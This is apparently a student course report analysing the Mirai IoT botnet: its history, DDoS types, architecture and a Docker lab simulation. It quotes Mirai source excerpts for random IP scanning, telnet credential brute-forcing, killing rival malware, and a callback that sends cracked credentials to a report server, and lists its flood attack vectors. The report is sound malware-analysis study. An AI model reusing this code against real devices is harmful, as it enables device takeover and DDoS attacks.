

# SR2I203 Hacking : méthodes et pratiques

- Davide GALLITELLI
- Carlotta CASTELLUCCIO
- Axel FOTSO

--------

# Mirai Botnet - Analysis and Simulation

## Introduction

IoT devices are an ever-growing category of network devices, including printers, routers, security cameras, smart TVs, etc. Those devices have particularly susceptible to malware attacks and are becoming increasingly attractive targets for cybercriminals because of lack of security.

Recently, IoT devices have been used to create **large-scale botnets**, which can deliver highly destructive Distributed Denial of Service (DDoS) attacks. One of these malwares, **Mirai**, brought to light the problem of IoT Security, and an increased attention to the topic of interconnected devices.

In Tuesday, September 20th 2016, KrebsOnSecurity.com blog was targeted by an extremely large and unusual Distributed Denial-of-Service attack (DDoS) of over **660 Gbps of traffic**. The attack seems to have been designed to knock offline the website of the investigative cybercrime journalist Brian Krebs in retaliation for the arrest of the owners of vDOS attack-for-hire service. The attack did not succeed, but according to Akamai it was nearly **double the size of the largest attack they had ever seen** and it orders of magnitude more traffic than is typically needed to knock the most of sites offline.


In the same month, an attack sharing the same technical characteristics was launched against the **French webhost OVH**, breaking the record for the largest recorded DDoS attack with at least **1.1 Tbps of traffic**. Multiple attacks have been registered since then, especially after the code for the malware has been release on September 30th 2016.


The most interesting aspect of this attack is that it was not performed by using traditional reflection/amplification DDoS, but with **direct traffic** instead: the attack was carried out by a **Botnet** (or Zombie Network) of hacked devices. While the total number of devices involved was not known for sure, it was sure that hundreds of thousands of compromised devices were related to the Internet of Things (mainly home routers, IP security cameras, Digital Video Recorder boxes and printers). The IoT devices became infected with malware by very **simple Telnet dictionary attacks** and were made part of the botnet that would then deliver the DDoS attack.


#### IoT Security Problem

The more connected devices, the bigger the threat. Typically IoT devices are poorly secured (sometimes, not secured at all) and the interconnected nature of these smart objects means that every poorly secured device that is connected online, it potentially affects the security and resilience of the network.

The main problem with IoT devices is that the majority of them has lack of even elementary security and they present some interesting features which make them an ideal target for hackers. To name a few, those devices:

- are highly scalable
- are always online
- are connected to fast Internet networks
- are highly heterogeneous
- might connect to Internet other offline objects
- can be phisically unprotected
- might not require particular permissions (such as root access or user interaction)

The IoT Security problem has been analyzed also by the Open Web Application Security Project and they identified the [**10 most common IoT vulnerabilities**](https://www.owasp.org/images/b/b0/OWASP_Top_10_2017_RC2_Final.pdf) which are shown in the following table:


#### Botnets and DDoS

A **denial-of-service attack (DoS attack)** is a cyber-attack where the perpetrator seeks to make a machine or network resource unavailable to its intended users by temporarily or indefinitely disrupting services of a host connected to the Internet. Denial of service is typically accomplished by flooding the targeted machine or resource with superfluous requests in an attempt to overload systems and prevent some or all legitimate requests from being fulfilled.
In a **distributed denial-of-service attack (DDoS attack)**, the incoming traffic flooding the victim originates from many different sources. This effectively makes it impossible to stop the attack simply by blocking a single source.                     
From these definitions, one can easyly understand that **Distributed Denial of Service (DDoS) attacks**  constitute one of the major threats and among the hardest security problems in today’s Internet and thier impact can be proportionally severe.  On the   


##### Types of DDoS attacks       
DDoS attactks can be implemented using three main stategies:                          
- **Traffic attacks**: Traffic flooding attacks send a huge volume of TCP, UDP and ICPM packets to the target. Legitimate requests get lost and these attacks may be accompanied by malware exploitation.
- **Bandwidth attacks**: This DDos attack overloads the target with massive amounts of junk data. This results in a loss of network bandwidth and equipment resources and can lead to a complete denial of service.
- **Application attacks**: Application-layer data messages can deplete resources in the application layer, leaving the target's system services unavailable.           
Different types of attacks fall into categories based on the traffic quantity and the vulnerabilities being targeted.       
Here is a list of the most popular types of DDoS attacks:
                    
##### What is a Botnet?         
Occasionally referred to as a **“zombie army,”** a **botnet** is a group of hijacked Internet-connected devices, each injected with malware used to control it from a remote location without the knowledge of the device’s rightful owner. From the point of view of hackers, these botnet devices are computing resources that can be used for any type of malicious purposes—most commonly for spam or DDoS attacks.       
##### How is a botnet controlled?           
A core characteristic of a botnet is the ability to receive updated instructions from the bot herder. The ability to communicate with each bot in the network allows the attacker to alternate attack vectors, change the targeted IP address, terminate an attack, and other customized actions. Botnet designs vary, but the control structures can be broken down into two general categories:      
1) **The client/server botnet model**     
These botnets operate through Internet Relay Chat networks, domains, or websites. Infected clients access a predetermined location and await incoming commands from the server. The bot herder sends commands to the server, which relays them to the clients. Clients execute the commands and report their results back to the bot herder.
2) **The peer-to-peer botnet model**         
To circumvent the vulnerabilities of the client/server model, botnets have more recently been designed using components of decentralized peer-to-peer filesharing. Embedding the control structure inside the botnet eliminates the single point-of-failure present in a botnet with a centralized server, making mitigation efforts more difficult. P2P bots can be both clients and command centers, working hand-in-hand with their neighboring nodes to propagate data.
##### How do IoT devices become a botnet?     
No one does their Internet banking through the wireless CCTV camera they put in the backyard to watch the bird feeder, but that doesn't mean the device is incapable of making the necessary network requests. The power of IoT devices coupled with weak or poorly configured security creates an opening for botnet malware to recruit new bots into the collective. An uptick in IoT devices has resulted in a new landscape for DDoS attacks, as many devices are poorly configured and vulnerable.
If an IoT device’s vulnerability is hardcoded into firmware, updates are more difficult. To mitigate risk, IoT devices with outdated firmware should be updated as default credentials commonly remain unchanged from the initial installation of the device. Many discount manufacturers of hardware are not incentivized to make their devices more secure, making the vulnerability posed from botnet malware to IoT devices remain an unsolved security risk.            

Just to have an idea of the consequences of these attacks,  remeber the famous
**"Dyn Botnet DDos cyberattack"** that took place on October 21, 2016. The victim was the servers of Dyn,
a company that controls much of the internet’s domain name system (DNS) infrastructure.
It remained under sustained assault for most of the day, bringing down
sites including Twitter, the Guardian, Netflix, Reddit, Paypal, CNN and many others in Europe and the US.

---------


## Mirai : architecture


Mirai is a piece of malware that infects IoT devices and is used as a launch platform for DDoS attacks. Its architecture includes:

- a **Command And Control** (CnC) server, coded in Go and responsible for attack coordination by keeping track of the infected devices of the botnet;
- a **ScanListen** server (*Report Server*), coded in Go and responsible for recevining information from the bots about the vulnerable targets and launching the *Malware Loader* which will infect the vulnerable device;
- the actual **Malware Loader**, coded in C and responsible for the *exploitation* of the infected host by using it for the actual DDoS attack;
- the infected devices, or **bots**.

The analysis of the Mirai code will be divided into two parts: *Malware Analysis*, which focuses on the code resonsible for discovering, exploiting and coordinating the bots, and *DDoS attack*, which focuses on the attack vectors and methods for the DDoS attack.

## Mirai : malware analysis

<!-- https://www.youtube.com/watch?v=5fVBB84OiAo -->

<!--
Analysis on the malware part of Mirai
- Research [scanner.c]
	- which features make a device infectable? - default user/pass cred on telnet login
	- discovery for hosts with open telnet ports
	- avoidance of some hardcoded IPs of authorities or internal network
- Exploitation
	- hardcoded credentials (60 User&Pwd)
	- detection of other malwares
- Coordination
	- how it gets integrated in the botnet
	- communication with the CommandAndControl server
-->

Like most malware in this category, Mirai is built for two core purposes:

- Locate and compromise IoT devices to further grow the botnet.
- Launch DDoS attacks based on instructions received from a remote C&C.

The first step is critical: Mirai has to find as many devices as possible and aggregate them to the zombie network.

#### Research

Mirai performs wide-ranging scans of IP addresses in order to locate under-secured IoT devices that could be remotely accessed via easily guessable login credentials via Telnet — usually factory default usernames and passwords (e.g., admin/admin).

```c
static ipv4_t get_random_ip(void)
{
    uint32_t tmp;
    uint8_t o1, o2, o3, o4;

    do
    {
        tmp = rand_next();

        o1 = tmp & 0xff;
        o2 = (tmp >> 8) & 0xff;
        o3 = (tmp >> 16) & 0xff;
        o4 = (tmp >> 24) & 0xff;
    }
    while (o1 == 127 ||                             // 127.0.0.0/8      - Loopback
          (o1 == 0) ||                              // 0.0.0.0/8        - Invalid address space
          (o1 == 3) ||                              // 3.0.0.0/8        - General Electric Company
          (o1 == 15 || o1 == 16) ||                 // 15.0.0.0/7       - Hewlett-Packard Company
          (o1 == 56) ||                             // 56.0.0.0/8       - US Postal Service
          (o1 == 10) ||                             // 10.0.0.0/8       - Internal network
          (o1 == 192 && o2 == 168) ||               // 192.168.0.0/16   - Internal network
          (o1 == 172 && o2 >= 16 && o2 < 32) ||     // 172.16.0.0/14    - Internal network
          (o1 == 100 && o2 >= 64 && o2 < 127) ||    // 100.64.0.0/10    - IANA NAT reserved
          (o1 == 169 && o2 > 254) ||                // 169.254.0.0/16   - IANA NAT reserved
          (o1 == 198 && o2 >= 18 && o2 < 20) ||     // 198.18.0.0/15    - IANA Special use
          (o1 >= 224) ||                            // 224.*.*.*+       - Multicast
          (o1 == 6 || o1 == 7 || o1 == 11 || o1 == 21 || o1 == 22 || o1 == 26 || o1 == 28 || o1 == 29 || o1 == 30 || o1 == 33 || o1 == 55 || o1 == 214 || o1 == 215) // Department of Defense
    );

    return INET_ADDR(o1,o2,o3,o4);
}
```

Mirai also holds a hardcoded list of IPs that the bots are programmed to avoid when performing their IP scans. This list includes the US Postal Service, the Department of Defense, the Internet Assigned Numbers Authority (IANA) and IP ranges belonging to Hewlett-Packard and General Electric.

```
127.0.0.0/8               - Loopback
0.0.0.0/8                 - Invalid address space
3.0.0.0/8                 - General Electric (GE)
15.0.0.0/7                - Hewlett-Packard (HP)
56.0.0.0/8                - US Postal Service
10.0.0.0/8                - Internal network
192.168.0.0/16            - Internal network
172.16.0.0/14             - Internal network
100.64.0.0/10             - IANA NAT reserved
169.254.0.0/16            - IANA NAT reserved
198.18.0.0/15             - IANA Special use
224.*.*.*+                - Multicast
6.0.0.0/7                 - Department of Defense
11.0.0.0/8                - Department of Defense
21.0.0.0/8                - Department of Defense
22.0.0.0/8                - Department of Defense
26.0.0.0/8                - Department of Defense
28.0.0.0/7                - Department of Defense
30.0.0.0/8                - Department of Defense
33.0.0.0/8                - Department of Defense
55.0.0.0/8                - Department of Defense
214.0.0.0/7               - Department of Defense
```

#### Exploitation

Once a host with Telnet ports (*23* and *2323*) enabled, Mirai uses a brute force technique for guessing passwords: basically, it uses a dictionary attack based on a list of 60 hard-coded credentials contained in the *scanner.c* file.

```c
switch (conn->state)
{
    [...]
    case SC_WAITING_TOKEN_RESP:
        consumed = consume_resp_prompt(conn);
        if (consumed == -1)
        {
    #ifdef DEBUG
            printf("[scanner] FD%d invalid username/password combo\n", conn->fd);
    #endif
            close(conn->fd);
            conn->fd = -1;

            // Retry
            if (++(conn->tries) == 10)
            {
                conn->tries = 0;
                conn->state = SC_CLOSED;
            }
            else
            {
                setup_connection(conn);
    #ifdef DEBUG
                printf("[scanner] FD%d retrying with different auth combo!\n", conn->fd);
    #endif
            }
        }
        else if (consumed > 0)
        {
            char *tmp_str;
            int tmp_len;
    #ifdef DEBUG
            printf("[scanner] FD%d Found verified working telnet\n", conn->fd);
    #endif
            report_working(conn->dst_addr, conn->dst_port, conn->auth);
            close(conn->fd);
            conn->fd = -1;
            conn->state = SC_CLOSED;
        }
        break;
    }
```

Once access has been granted, Mirai launched several killer scripts meant to eradicate other worms and Trojans, as well as prohibiting remote connection attempts of the hijacked device.

It starts by closing all processes which use SSH, Telnet and HTTP:
```c
killer_kill_by_port(htons(23))  // Kill telnet service
killer_kill_by_port(htons(22))  // Kill SSH service
killer_kill_by_port(htons(80))  // Kill HTTP service
```

Then, it locates and eradicates other botnet processes from memory, by means of a technique known as **memory scraping**:

```c
#DEFINE TABLE_MEM_QBOT            // REPORT %S:%S
#DEFINE TABLE_MEM_QBOT2           // HTTPFLOOD
#DEFINE TABLE_MEM_QBOT3           // LOLNOGTFO
#DEFINE TABLE_MEM_UPX             // \X58\X4D\X4E\X4E\X43\X50\X46\X22
#DEFINE TABLE_MEM_ZOLLARD         // ZOLLARD
```

Finally, it kills the *Anime* software, a competing IoT-targeting malware:

```c
table_unlock_val(TABLE_KILLER_ANIME);
// If path contains ".anime" kill.
if (util_stristr(realpath, rp_len - 1, table_retrieve_val(TABLE_KILLER_ANIME, NULL)) != -1)
{
    unlink(realpath);
    kill(pid, 9);
}
table_lock_val(TABLE_KILLER_ANIME);
```

#### Coordination

Once a target has been found, the information related to it are passed to the **ScanListen** server, which holds record of all infected devices now included in the botnet.

The function `report_working` (reported in the following code snippet), is the one responsible for the communication with the **ScanListen** server. Its domain and port are resolved from the encoded parameters saved in the bot, then information is sent to the ScanListen: in particular, information sent include the *address* and *port* of the target, the *username* and the *password* in order to connect.

```c
static void report_working(ipv4_t daddr, uint16_t dport, struct scanner_auth *auth)
{
    struct sockaddr_in addr;
    int pid = fork(), fd;
    struct resolv_entries *entries = NULL;

    if (pid > 0 || pid == -1)
        return;

    if ((fd = socket(AF_INET, SOCK_STREAM, 0)) == -1)
    {
#ifdef DEBUG
        printf("[report] Failed to call socket()\n");
#endif
        exit(0);
    }

    table_unlock_val(TABLE_SCAN_CB_DOMAIN);
    table_unlock_val(TABLE_SCAN_CB_PORT);

    entries = resolv_lookup(table_retrieve_val(TABLE_SCAN_CB_DOMAIN, NULL));
    if (entries == NULL)
    {
#ifdef DEBUG
        printf("[report] Failed to resolve report address\n");
#endif
        return;
    }
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = entries->addrs[rand_next() % entries->addrs_len];
    addr.sin_port = *((port_t *)table_retrieve_val(TABLE_SCAN_CB_PORT, NULL));
    resolv_entries_free(entries);

    table_lock_val(TABLE_SCAN_CB_DOMAIN);
    table_lock_val(TABLE_SCAN_CB_PORT);

    if (connect(fd, (struct sockaddr *)&addr, sizeof (struct sockaddr_in)) == -1)
    {
#ifdef DEBUG
        printf("[report] Failed to connect to scanner callback!\n");
#endif
        close(fd);
        exit(0);
    }

    uint8_t zero = 0;
    send(fd, &zero, sizeof (uint8_t), MSG_NOSIGNAL);
    send(fd, &daddr, sizeof (ipv4_t), MSG_NOSIGNAL);
    send(fd, &dport, sizeof (uint16_t), MSG_NOSIGNAL);
    send(fd, &(auth->username_len), sizeof (uint8_t), MSG_NOSIGNAL);
    send(fd, auth->username, auth->username_len, MSG_NOSIGNAL);
    send(fd, &(auth->password_len), sizeof (uint8_t), MSG_NOSIGNAL);
    send(fd, auth->password, auth->password_len, MSG_NOSIGNAL);

#ifdef DEBUG
    printf("[report] Send scan result to loader\n");
#endif

    close(fd);
    exit(0);
}

```


## Mirai : DDoS Attack

<!--
Analysis on the DDoS part of Mirai [attack.h]
- how the target is defined
- which attacks are launched
	- 9+1 attack vectors [attack.h]
-->
Mirai offers offensive capabilities to launch DDoS attacks using UDP, TCP or HTTP protocols. They are launched by executing the Bot part of the source code, that runs on infected IoT devices. A build script ("build.sh") compiles bot source for different architectures. Bot was written entirely in C programming language. There are three modules running besides the main process: attack, killer and scanner.

The Attack module is the one that parses command when received and launches DoS attack. There are ten attack methods the CNC server sends to the botnet for executing a DDoS against its target, implemented in ten different functions. Module decides which function to call based on command issued, and stops its execution once duration time expires. In fact the command given by the server specifies the type of DDoS attack, the IP/subnet of the target, and the duration of the attack.

The attacks supported over the UDP protocol, carried out by an unsuspected IoT device, are implemented by the file attack_udp.c :
- Generic Routing Encapsulation (GRE) Attack;
- TSource Query — Reflective Denial of Service (bandwidth amplification);
- DNS Flood via Query of type A record (mapping hostname to IP address);
- Flooding of random bytes via plain packets.

In the same way there are several attack types supported via TCP protocol implemented by attack_tcp.c:
- SYN Flood
- ACK Flood
- PSH Flood

In addition to these malformed UDP/TCP packets floods, Mirai bots also support Dos over http, within attack_app.c file. Once the connection with the target device is established and as long as it is held, the bot will send HTTP GET or POST requests, inlcuding cookies and random payload data.

```
#define ATK_VEC_UDP        0  /* Straight up UDP flood */
#define ATK_VEC_VSE        1  /* Valve Source Engine query flood */
#define ATK_VEC_DNS        2  /* DNS water torture */
#define ATK_VEC_SYN        3  /* SYN flood with options */
#define ATK_VEC_ACK        4  /* ACK flood */
#define ATK_VEC_STOMP      5  /* ACK flood to bypass mitigation devices */
#define ATK_VEC_GREIP      6  /* GRE IP flood */
#define ATK_VEC_GREETH     7  /* GRE Ethernet flood */
//#define ATK_VEC_PROXY      8  /* Proxy knockback connection */
#define ATK_VEC_UDP_PLAIN  9  /* Plain UDP flood optimized for speed */
#define ATK_VEC_HTTP       10 /* HTTP layer 7 flood */
```

When attacking HTTP floods, Mirai bots hide behind the following default user-agents:

```
Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/601.7.7 (KHTML, like Gecko) Version/9.1.2 Safari/601.7.7
```

-----------

### A Mirai simulation

<!--
Attack simulation
- Define infrastructure [VMs for components, raspberry for bot]
- Define attack vector - very interesting DNS water torture attack
 -->

 The attacker sets up a **ScanListen** server and a **CommandAndControl (CNC)** server. On the CnC server you can launch the first bot: it starts its Telnet scans (on ports *23* or *2323*) looking for infectable hosts. If one is found, this target is reported to the ScanListen server, reporting its IP address, the targeted ports and the working credentials for login. Once the ScanListen has its information, then it starts the **CodeLoader** component, which effectively infects the target, now becoming a bot.

 Summarizing:

 - The ScanListen and CnC are launched
 - A first Bot is launched, looking for vulnerable hosts
 - A first target is found
 - The Bot reports information to the ScanListen (IP address, ports, credentials)
 - The ScanListen issues a CodeLoader to inject code into the target
 - The target becomes a zombie (bot)
 - The Bot communicates with the CnC (port 21)
 - The Bot starts looking for new hosts

 


#### Simulation: infrastructure overview

The whole infrastructure for the attack, both the Mirai components and the its targets are *Docker containers* and built with *Docker-Compose*. This allows us to have a better control over the internal network of containers, and even perform off-line attacks. The containers used are all based on a _Debian Jessie-Slim_ distribution, and are the following:

- 1 **CNC**, the CommandAndControl server, which also holds the database
- 1 **SCANLISTEN** server, to receive the reports from the bots
- 1 **LOADER**, for malware injection
- 1 **initial bot**, basically a "Patient Zero" for the infection
- x **targets**, simple Jessie-Slim containers with SSH enabled with default password [root@localhost : root]
- 1 **DNS-Server**, in order to allow for DNS discovery inside the Docker network, Ubuntu image based on the Bind9 DNS service.

Being able to launch all the components with the Docker infrastructure and through a Docker-Compose script allows for great scalability and immediate launch of the service. This makes it pretty easy to launch a quick test without any major modification to the code of the single components of the bot. A simple `docker-compose up --build` in the `Code/source/` directory is sufficient to build the entire infrastructure and run immediately tests in the contained network.

--------

### Conclusion

Mirai is a game changer. It changed the way DDoS attacks are launched, as well as showed how easily exploitable are internet-connected devices such as cameras, gates, or similar. Moreover, it is one of the first malwares which code is publicly available online, with a clear set of easily-followable instructions as well as *how-to guides* online.

Many security experts are arguing about Mirai's longevity, some even saying to "*let it die by itself*". Even if Mirai were to disappear in the next months, up to 53 unique strands of Mirai have been found *in the wild* just in the two months following the source code release, each with different improvements, from changing the targeted port exploiting other infection vectors to using Domain Generation Algorithm (DGA) to evade domain blacklisting.

Since IoT devices will only grow in the coming years, IoT security is something to pay close attention to.

----------

### Bibliography
C. Kolias, G. Kambourakis, A. Stavrou, J.Voas,”DDoS in the IoT: Mirai and Other Botnets”, IEEE Computer Society, 2017

M. Antonakakis, T. April, M. Bailey, M. Bernhard, E. Bursztein, J. Cochran, Z. Durumeric, J. A. Halderman, L. Invernizzi, M. Kallitsis, D. Kumar, C. Lever, Z. Ma, J. Mason, D. Menscher, C. Seaman, Nick Sullivan, K. Thomas, Y. Zhou, “Understanding the Mirai Botnet”, Proceedings of the 26th USENIX Security Symposium,  August 16–18  2017 ,Vancouver ( Canada)

B. Herzberg, D. Bekerman, I. Zeifman, “Breaking Down Mirai: An IOT DDoS Botnet Analysis”,
Blog (https://WWW.INCAPSULA.COM/BLOG/CATEGORY/BLOG), October 2016

R. Graham, “Mirai and IoT Botnet Analysis”, RSA Conference 2017, February 13-17, San Francisco

S. Jasek, “Mirai botnet: intro to discussion”, OWASP, Krakow, 2016/11/15

H. Sinanovi´c, S. Mrdovic, “Analysis of Mirai Malicious Software”, University of Sarajevo

N. B. Said, F. Biondi, V. Bontchev, O. Decourbe,T. Given-Wilson, A. Legay, J. Quilbeuf,“Detection of Mirai by Syntactic and Semantic Analysis”, HAL Id: hal-01629040, https://hal.inria.fr/hal-01629040, 5 Nov 2017

B. Botticelli, “IoT Honeypots: State of the Art”, Seminar in Advanced Topics in Computer Science, Università di Roma Sapienza, September 2, 2017
